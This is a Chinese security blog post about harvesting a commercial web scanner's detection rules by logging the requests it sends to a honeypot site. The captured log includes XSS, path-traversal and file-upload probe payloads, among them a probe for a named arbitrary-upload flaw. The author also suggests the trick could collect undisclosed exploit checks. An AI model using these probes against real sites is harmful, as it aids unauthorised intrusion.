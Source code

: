 # 收集扫描规则(payload)

Feei <feei#feei.cn> 

## 1. 背景思路
最近发现一种新的收集漏洞扫描规则的思路。
360有一款安全监测工具，360网站安全`http://webscan.360.cn/`
能检测各类网站安全问题，由此猜测背后肯定是一款扫描器。
那我是不是搭建一个蜜罐程序，让他去监测，然后我将所有日志全部记录下来。这样我就有了和360一样全的扫描规则库了？

## 2. 测试验证
以下是测试结果，提交扫描网站后，没多久我的服务器就收到很多请求日志。

```bash
GET http://blog.feei.cn/  
GET http://blog.feei.cn/robots.txt  
GET http://blog.feei.cn/  
GET http://blog.feei.cn/index.php?a=1<script>alert(abc)<%2Fscript>  
GET http://blog.feei.cn/  
GET http://blog.feei.cn/nevercouldexistfilenosec  
GET http://blog.feei.cn/nevercouldexistfilewebsec  
GET http://blog.feei.cn/nevercouldexistfilenosec.aspx  
GET http://blog.feei.cn/nevercouldexistfilewebsec.aspx  
GET http://blog.feei.cn/nevercouldexistfilenosec.shtml  
GET http://blog.feei.cn/nevercouldexistfilewebsec.shtml  
GET http://blog.feei.cn/nevercouldexistfilenosec/  
GET http://blog.feei.cn/nevercouldexistfilewebsec/  
GET http://blog.feei.cn/nevercouldexistfilenosec.zip  
GET http://blog.feei.cn/nevercouldexistfilenosec.zip  
GET http://blog.feei.cn/nevercouldexistfilewebsec.zip  
GET http://blog.feei.cn/nevercouldexistfilenosec.php  
GET http://blog.feei.cn/nevercouldexistfilewebsec.php  
GET http://blog.feei.cn/nevercouldexistfilenosec.bak  
GET http://blog.feei.cn/nevercouldexistfilewebsec.bak  
GET http://blog.feei.cn/nevercouldexistfilenosec.rar  
GET http://blog.feei.cn/nevercouldexistfilewebsec.rar  
GET http://blog.feei.cn/  
PUT http://blog.feei.cn/jsky_web_scanner_test_file.txt zwell@nosec.org  
GET http://blog.feei.cn/jsky_web_scanner_test_file.txt  
GET http://blog.feei.cn/  
GET http://blog.feei.cn/wp-admin  
GET http://blog.feei.cn/admin.php  
GET http://blog.feei.cn/nosec_Web_Scanner_Test.dll  
GET http://blog.feei.cn/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/boot.ini  
GET http://blog.feei.cn/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fwindows/win.ini  
GET http://blog.feei.cn/dede/  
```

等检测完，过滤分析请求日志，统计扫描规则多达数千条。
并且，我从请求日志发现一条惊人的规则：

```
POST http://blog.feei.cn/bocadmin/j/uploadify.php -----------------------------  
Content-Disposition: form-data; name="folder"

/
-----------------------------
Content-Disposition: form-data; name="Filedata"; filename="scan_upload.txt"  
Content-Type: text/plain

This is a txt ,please delete it and scan website again --by webscan  
-----------------------------
Content-Disposition: form-data; name="submit"  
```

## 3. 以外发现
`bocadmin/j/uploadify.php` , 这条规则是我曾经白盒审计时发现的一个任意文件上传漏洞，影响数十家大型集团、企业官网，当时报给了补天。
也就是说，补天会将所有的漏洞利用规则添加进360网站安全里面去。
而补天的漏洞是不对第三者公开的，那如果这样的话，就可以利用上面方式收集所有未公开的漏洞检测方法，甚至是漏洞利用方式。并且用同样的方法去收集类似百度安全宝、唐朝安全扫描等等的规则集。
